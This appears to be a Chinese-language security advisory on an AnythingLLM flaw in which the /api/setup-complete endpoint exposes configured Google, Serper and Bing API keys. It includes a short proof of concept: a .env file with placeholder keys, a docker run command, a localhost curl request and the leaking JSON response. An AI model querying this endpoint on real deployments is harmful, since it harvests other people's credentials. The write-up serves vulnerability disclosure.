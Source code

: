 攻击者通过 API 可获取以下敏感信息：  
  
AgentGoogleSearchEngineKey：Google 搜索引擎 API Key。  
  
AgentSerperApiKey：Serper 搜索引擎 API Key。  
  
AgentBingSearchApiKey：Bing 搜索引擎 API Key。  
  
**Proof验证：**  
  
攻击者可通过以下步骤重现漏洞：  
  
1. 在   
.  
env  
 文件中设置以下 API Key：  
```
       AGENT_GSE_CTX='bbbbbbbbbbbbbbbb'
       AGENT_GSE_KEY='aaaaaaaaaaaaaaaa'
       AGENT_SERPER_DEV_KEY='cccccccccccccccc'
       AGENT_BING_SEARCH_API_KEY='dddddddddddddddddddd'
```  
  
2. 启动 AnythingLLM 容器：  
```
       docker run -d -p 3001:3001 \
       -v ${STORAGE_LOCATION}:/app/server/storage \
       -v ${STORAGE_LOCATION}/.env:/app/server/.env \
       -e STORAGE_DIR="/app/server/storage" \
       mintplexlabs/anythingllm
```  
  
3. 访问   
/setup-complete API：  
```
       curl http://localhost:3001/api/setup-complete    
```  
  
响应结果中会返回所有配置信息，包括敏感的 API Key：  
```
       {
         "results": {
           "AgentGoogleSearchEngineId": "bbbbbbbbbbbbbbbb",
           "AgentGoogleSearchEngineKey": "aaaaaaaaaaaaaaaa",
           "AgentSerperApiKey": "cccccccccccccccc",
           "AgentBingSearchApiKey": "dddddddddddddddddddd"
         }
       }
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSrcNn60ZcibTxQIp7icI1YsIVBuoicicyqeotwDOPkE19Q3hcZWmwPESaMribKOjDF39oK1w3lPtM3iaicQ/640?wx_fmt=png&from=appmsg "")  
  
**漏洞影响**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSrcNn60ZcibTxQIp7icI1YsI7B0dPpcLTmgTz4HmrFvZsqmXuYPogDbZTRYLP7EmIhTsBTpgyVaz3g/640?wx_fmt=png&from=appmsg "")  
  
  
